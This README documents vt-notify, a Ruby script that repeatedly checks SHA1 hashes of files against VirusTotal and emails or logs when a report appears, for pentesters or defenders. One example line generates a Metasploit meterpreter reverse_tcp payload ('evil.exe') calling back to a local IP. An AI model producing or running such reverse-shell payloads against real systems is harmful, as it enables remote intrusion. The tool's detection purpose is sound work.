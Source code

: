Virus Total Notifier
=========

This project was originally created to set up a notification so when Virus Total had a report for a specific binary (One used in a pen test or otherwise) the pentester could be notified via log or email. It runs in an infinite loop and does not check files or hashes that have already been detected, however it does continue to re-check hashes that haven't been.

However, this can also be used as a detection mechanism. Target it at your web-root or other sensitive directory and become notified when anything that has a report on Virus Total is added to your directory.

The script doesn't have anything Linux specific in it, so it should be portable anywhere Ruby is installed.


Usage
========

```
Usage: vt-notify [options]
    -e EMAIL // email address of who to notify upon detection, will only log to file if not specified
    -m SMTPSERVER // smtp server to relay email through
    -s FILENAME // file name of binary to keep track of
    -S SHA1 // single SHA1 to keep track of
    -f FILENAME // file containing sha1 hashes of files to keep track of
    -d DIRECTORY // directory of binaries keep track of
    -a APIKEYFILENAME // file contianing API key hash on first line, defaults to apikey.txt
    -l LOGFILENAME // file to write/read positive entries to/from, defaults to results.log
    -i INTERVAL // how often VT is checked, defaults to every 10 minutes
    -h
```

For example, the following takes all 500+ files in the hackarmoury repository, SHA1 hashes them and checks them against Virus Total. The ones that have been submitted (even those that have a 0 detection rate) are reported via email to justanotheruser@gmail.com via the Gmail email servers. 
```
./vt-notify.rb -d /opt/hackarmoury/ -e justanotheruser@gmail.com -m gmail-smtp-in.l.google.com
```

Another example is taking a freshly generated 'evil.exe' from Metasploit:
```
./msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.92.100 X > evil.exe
```
And setting up vt-notify to just check on it, with the notifications going to the same gmail account, checking ever 20 seconds:
```
./vt-notify.rb -s evil.exe -e justanotheruser@gmail.com -m gmail-smtp-in.l.google.com -i 20
```
Then, acting as the incident responder, I upload the "found" malware to Virus Total and almost instantly:
```
======================================
            RESULTS                   
======================================
Checked:     1
Not found:   1
Found:       0

check complete, sleeping for 20 seconds
4f4c103911eff1668199ff7fbce5e87rae1hee0d was found 35 out of 46 on 2012-12-28 08:29:59
======================================
            RESULTS                   
======================================
Checked:     1
Not found:   0
Found:       1
```
Hash lists are also supported in hash-per-line files (-f) and single SHA1 (-S), however I don't have the ability to support multiple singles on the command line (-S) or (-s)
